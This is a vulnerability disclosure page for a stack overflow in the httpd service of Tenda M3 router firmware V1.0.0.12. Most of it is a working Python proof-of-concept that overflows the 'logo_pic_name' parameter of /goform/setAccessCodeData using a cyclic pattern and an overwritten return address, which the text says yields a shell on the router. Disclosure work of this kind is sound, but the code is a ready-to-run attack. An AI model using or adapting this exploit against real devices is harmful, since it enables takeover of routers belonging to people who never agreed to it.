



# Tenda M3 Stack Overflow

**Vender** ：Tenda

**Firmware version**:V1.0.0.12(4856)

**Exploit Author**: GD@hillstone

**Vendor Homepage**: https://www.tenda.com.cn/


## POC

httpd in directory `/bin` has a stack overflow vulnerability. The vulnerability occurrs in the `formSetAccessCodeInfo` function, which can be accessed via the url  `/goform/setAccessCodeData`.




When we send packets, the router will be shell

```
#!/usr/bin/env python
# -*- coding: UTF-8 -*-

import  requests
from pwn import *

 

if __name__ == '__main__':
    #Fireitup
    #payload='a'*29+'\xfc\x69\x04\x01'
    #payload=payload.ljust(900,'a')
    payload=cyclic(0x1fc)+'\xfc\x69\x04\x00'
    url = 'http://192.168.10.1/goform/setAccessCodeData'  
    # 构造http数据包

    pdata = {

        'aaaa'  :   'bbbb' ,
        'logo_pic_name'  :   payload
        }

    header = {
        'Cookie'        : 'bLanguage=cn; user=admin; workMode=slave',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type'  : 'application/x-www-form-urlencoded',
        'User-Agent'    : 'Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)'
        }
    # 发起http请求
    try:
        print pdata
        a=requests.get(url,params=pdata,headers=header)
        #print a.text
        print '[+] execute ok'
    except Exception,e:
        print "2Payload delivery failed: %s" % str(e)


```






